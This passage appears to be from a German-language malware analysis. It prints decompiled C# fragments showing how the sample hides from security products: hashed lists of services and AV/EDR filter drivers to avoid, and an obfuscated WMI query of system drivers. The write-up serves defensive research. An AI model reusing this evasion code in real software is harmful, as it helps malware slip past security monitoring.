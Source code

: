 | cutter | Free and Open Source Reverse Engineering Platform | Malware-Analyse |
| de4dot | .NET deobfuscator and unpacker | Malware-Analyse

#### Services

Die zu meidenden Services sind mit Hashes im Array svcList abgelegt.
```C#
	private static readonly ServiceConfiguration[] svcList = new ServiceConfiguration[8]
	{
		new ServiceConfiguration
		{
			timeStamps = new ulong[1] { 5183687599225757871uL },
			Svc = new ServiceConfiguration.Service[1]
			{
				new ServiceConfiguration.Service
				{
					timeStamp = 917638920165491138uL,
					started = true
				}
			}
		},
		new ServiceConfiguration
		{
			timeStamps = new ulong[1] { 10063651499895178962uL },
			Svc = new ServiceConfiguration.Service[1]
			{
				new ServiceConfiguration.Service
				{
					timeStamp = 16335643316870329598uL,
					started = true
				}
			}
    ...

```

#### Antivirus-Filtertreiber

Antivirenprogramme vor allem EDR-Tools nutzen filtertreiber, um Dinge wie gewisse Gerätezugriffe und Festplattenzugriff überwachen und nötigerweise verhindern zu können. Daher sucht die Malware neben Services und Prozessen auch nach entsprechenden Filtertreibern. Deren Namen werden ebenfalls als Hash im Array configTimeStamps gespeichert. Leider brachte unser Brutforcing in diesem zusammenang keine Namen zutage. Dies könnte daran liegen, dass die entsprechenden Treibernamen länger, als die sechs Zeichen sind, die mit dem gegebenen Zeitbudget bruteforced werden konnten.

```C#
	private static readonly ulong[] configTimeStamps = new ulong[17]
	{
		17097380490166623672uL, 15194901817027173566uL, 12718416789200275332uL, 18392881921099771407uL, 3626142665768487764uL, 12343334044036541897uL, 397780960855462669uL, 6943102301517884811uL, 13544031715334011032uL, 11801746708619571308uL,
		18159703063075866524uL, 835151375515278827uL, 16570804352575357627uL, 1614465773938842903uL, 12679195163651834776uL, 2717025511528702475uL, 17984632978012874803uL
	};



		private static bool SearchConfigurations()
		{
																				       //Deobfuscated: Select * From Win32_SystemDriver
			ManagementObjectSearcher val = new ManagementObjectSearcher(ZipHelper.Unzip("C07NSU0uUdBScCvKz1UIz8wzNooPriwuSc11KcosSy0CAA=="));
			try
```